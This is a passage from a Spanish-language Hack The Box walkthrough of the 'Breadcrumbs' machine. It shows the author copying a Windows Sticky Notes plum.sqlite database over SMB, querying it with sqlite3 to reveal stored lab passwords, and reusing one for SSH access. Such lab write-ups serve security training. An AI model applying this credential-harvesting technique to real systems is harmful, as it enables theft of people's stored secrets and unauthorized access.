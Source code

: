 ```powershell
PS C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState> dir


    Directory: C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         1/15/2021   4:10 PM          20480 15cbbc93e90a4d56bf8d9a29305b8981.storage.session
-a----        11/29/2020   3:10 AM           4096 plum.sqlite
-a----         1/15/2021   4:10 PM          32768 plum.sqlite-shm
-a----         1/15/2021   4:10 PM         329632 plum.sqlite-wal
```
Nos compartimos una carpeta por smb y así nos pasamos todos los archivos, por alguna razón la única manera de que el archivo no quede vacio es descargando todos los plum con wildcard, después abrimos el archivo con sqlite3.

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Breadscrumbs/content$ sqlite3 plum.sqlite                            
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .tables
Media           Stroke          SyncState       User          
Note            StrokeMetadata  UpgradedNote  
sqlite> .schema Note
CREATE TABLE IF NOT EXISTS "Note" (
"Text" varchar ,
"WindowPosition" varchar ,
"IsOpen" integer ,
"IsAlwaysOnTop" integer ,
"CreationNoteIdAnchor" varchar ,
"Theme" varchar ,
"IsFutureNote" integer ,
"RemoteId" varchar ,
"ChangeKey" varchar ,
"LastServerVersion" varchar ,
"RemoteSchemaVersion" integer ,
"IsRemoteDataInvalid" integer ,
"Type" varchar ,
"Id" varchar primary key not null ,
"ParentId" varchar ,
"CreatedAt" bigint ,
"DeletedAt" bigint ,
"UpdatedAt" bigint );
sqlite> Select Text from Note;
\id=48c70e58-fcf9-475a-aea4-24ce19a9f9ec juliette: jUli901./())!
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
\id=48924119-7212-4b01-9e0f-ae6d678d49b2 administrator: [MOVED]
```
Encontramos la contraseña del usuario development, con esto podemos entrar por ssh y seguir enumerando para conseguir el root. Con este nuevo usuario vemos que podemos ingresar a la carpeta compartida development.
